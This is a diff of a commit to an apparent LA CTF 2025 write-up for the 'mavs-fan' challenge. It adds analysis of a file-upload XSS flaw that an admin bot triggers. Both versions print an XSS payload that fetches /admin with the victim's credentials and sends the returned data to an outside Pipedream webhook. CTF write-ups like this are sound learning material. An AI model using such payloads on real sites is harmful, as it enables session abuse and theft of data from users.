

Before and after one commit to olexamatej/lactf2025, a Markdown page: mavs-fan/solution.md, the part around the change printed below. Shown: that part at 94% size. GitHub-like rendering; pictures changed too: mavs-fan/imgs/image-2.png (added), mavs-fan/imgs/image-3.png (added); blank space fills up the shorter version.

````diff
--- a/mavs-fan/solution.md
+++ b/mavs-fan/solution.md
@@ -1,14 +1,37 @@
-```
+### Analysis
+This challenge consists of two pages:
+
+1. A file upload page that allows us to upload **any file**.
+   ![Upload Page](imgs/image-2.png)
+
+2. An **admin bot** that visits the URLs we upload.
+   ![Admin Bot](imgs/image-3.png)
+
+### Finding the Vulnerability
+After testing, I confirmed that if we upload **HTML**, it gets rendered in the browser. This means we can include JavaScript, allowing for **XSS (Cross-Site Scripting)**.
+
+To test this, I uploaded a simple script that changes the document title:
+```html
 <script>
-  fetch('/admin')
-    .then(response => response.json())
-    .then(data => {
-      new Image().src = "https://eo3acfy7jjf8uik.m.pipedream.net/?flag=" + encodeURIComponent(data.trade_plan);
-    });
+  document.title = "test";
 </script>
 ```
+![XSS Test](imgs/image-1.png)
+
+Since we have access to the **admin panel's source code**, we know where the flag is stored.
+
+### Exploit
+We can upload a malicious HTML file with this payload:
+```html
+<img src=x onerror="fetch('/admin', { credentials: 'include' })
+  .then(res => res.json())
+  .then(data => {
+    new Image().src = 'https://eo3acfy7jjf8uik.m.pipedream.net/?flag=' + encodeURIComponent(data.trade_plan);
+  })">
 ```
-<img src=x onerror="fetch('/admin', { credentials: 'include' }).then(res => res.json()).then(data => { new Image().src = 'https://eo3acfy7jjf8uik.m.pipedream.net/?flag=' + encodeURIComponent(data.trade_plan); })">
-```
-![alt text](image-1.png)
+**How it works:**
+- The `src=x` is an **invalid image source**, triggering the `onerror` event.
+- `onerror` executes a `fetch` request to `/admin`, **stealing the admin's session**.
+- The response contains `trade_plan`, which likely holds the **flag**.
+- The script then sends the flag to a **webhook (Pipedream URL)**.
 
````
Also changed, not shown: other parts of mavs-fan/solution.md (+3 -1 lines), 2password/solution.md (added, +59 -0 lines), Extremely_Convenient_Breaker/solution.md (added, +64 -0 lines), mavs-fan/imgs/image-1.png (renamed from mavs-fan/image-1.png), mavs-fan/imgs/image.png (renamed from mavs-fan/image.png), 1 other file.
